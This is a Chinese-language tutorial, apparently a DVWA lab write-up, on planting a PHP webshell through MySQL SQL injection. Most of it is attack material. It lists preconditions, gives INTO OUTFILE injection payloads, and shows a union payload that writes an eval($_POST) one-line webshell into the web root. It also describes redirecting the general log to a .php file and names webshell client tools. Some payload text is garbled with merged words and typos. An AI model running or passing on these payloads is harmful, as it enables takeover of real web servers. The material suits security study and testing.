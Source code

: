 # webshell写入

## **1必备条件**

想要成功向MySQL写入WebShell需要至少满足以下4个条件：

① 数据库的当前用户为ROOT或拥有FILE权限；\
② 知道网站目录的绝对路径；\
③ PHP的GPC参数为off状态；\
④ MySQL中的secure\_file\_priv参数不能为NULL状态。

注意：关于其中第4点，secure\_file\_priv参数是MySQL用来限制数据导入和导出操作的效果，如果这个参数被设为了一个目录名，那么MySQL会允许仅在这个目录中可以执行文件的导入和导出，例如LOAD DATA、SELECT。。。INTOOUTFILE、LOAD\_FILE()等。如果这个参数为NULL，MySQL会禁止导入导出操作，但是这只是意味着通过outfile方法写入WebShell是无法成功的，但是通过导出日志的方法是可以的。

## **2写入方法**

向MySQL写入WebShell的方式一共有两种，分别是：1、使用outfile方法，2、基于log日志写入法。

Outfile方法其实是Mysql提供的一个用来写入文件的函数，当我们可以控制写入的文件内容以及文件的保存路径时，我们就可以达到传入WebShell的目的。当我们可以使用union查询时，我们构造一个如下语句，就可以达到效果：

Union select “这里是WebShell” into outfile “Web目录”；

当我们无法使用union时，还有一些其他方法也可以实现（利用分隔符写入）：

?id=1 INTO OUTFILE '物理路径' lines terminatedby （这里是WebShell）#

?id=1 INTO OUTFILE '物理路径' fields terminatedby （这里是WebShell）#

?id=1 INTO OUTFILE'物理路径'columns terminatedby （这里是WebShell）#

?id=1 INTO OUTFILE '物理路径' lines startingby （这里是WebShell）#

基于log日志写入的方法其实是先将日志文件的导出目录修改成Web目录，然后执行了一次简单的WebShell代码查询功能，此时日志文件记录了此过程，这样再Web目录下的日志文件就变成了WebShell。例如，我们先设置日志文件的导出目录：set global general\_file = ‘Web目录’；然后执行一遍：select “WebShell代码”；即可。

## **3使用OUTFILE方法写入Webshell**

### **（1）实验前准备：**

检查secure\_file\_priv是否开启：show variables like‘%secure%’;确认其不为NULL。有值或为空都可以。（若是为NULL，则需要到my.ini文件中手动修改）

![](https://image.3001.net/images/20200810/1597037962.png!small)

检查当前用户是否具备写权限：selectuser,file\_priv from mysql.user;确认其用户的值为Y即代表此用户拥有文件写入权限。

![](https://image.3001.net/images/20200810/1597037979.png!small)

### **（2）确认注入点**

http:/192.168.20.35/DVWA-master/vulnerabilities/sqli/?id=1;

参数ID存在SQL注入漏洞

http:/192.168.20.35/DVWA-master/vulnerabilities/sqli/?id=1’union select version(),user() #

![](https://image.3001.net/images/20200810/1597037995.png!small)

### **（3）利用outfile写入shell文件**

若secure\_file\_priv为空，则可以向任意目录写入文件，若secure\_file\_priv有值，则只能向该值指向的目录写入文件，因为我们的值为空，所以就任意目录写入，但因为还需要工具进行连接，所以最好放在网站的根目录下。

PAYLOAD（使用Union查询注入）：1‘unionselect1,”\<?phpeval(#\_POST\[‘pass’]); ?>” into outfile“F:\\\PhpStudy20180211

\\\PHPTutorial\\\WWW\\\Tp.php” #

PAYLOAD（不用Union）：1’intooutfile“F:\\\Php、Study2018021\\\PHPTutorial\\\WWW\\\Tp.php” fields terminated by “\<?phpeval(#\_POST\[‘pass’]); ?>” #

![](https://image.3001.net/images/20200810/1597038012.png!small)

文件已被写入到网站的根目录下，接下来就可以使用连接工具（蚁剑、菜刀、冰蝎等）进行连接了。

![](https://image.3001.net/images/20200810/1597038052.png!small)

## **4、使用导入日志的方法写入Webshell**

### **（1）实验前准备：**

检查当前mysql下log日志是否开启，以及log的默认地址在哪里：show variables like ‘%general%’;

![](https://image.3001.net/images/20200810/1597038071.png!small)

将log日志开启，并设置日志的写入位置:

Set globalgeneral\_log = on;

Set globalgeneral\_log\_file = ‘F:/test.php’;

![](https://image.3001.net/images/20200810/1597038089.png!small)

### **（2）使用写入日志再读取的方法**

直接在SQL注入点，使用查询语句，添加WebShell代码，如下：

Select '\<?phpphpinfo();?>';

此时这段WebShell代码已经被记录到日志文件中了，接下就可以使用连接工具进行连接了。

![](https://image.3001.net/images/20200810/1597038104.png!small)
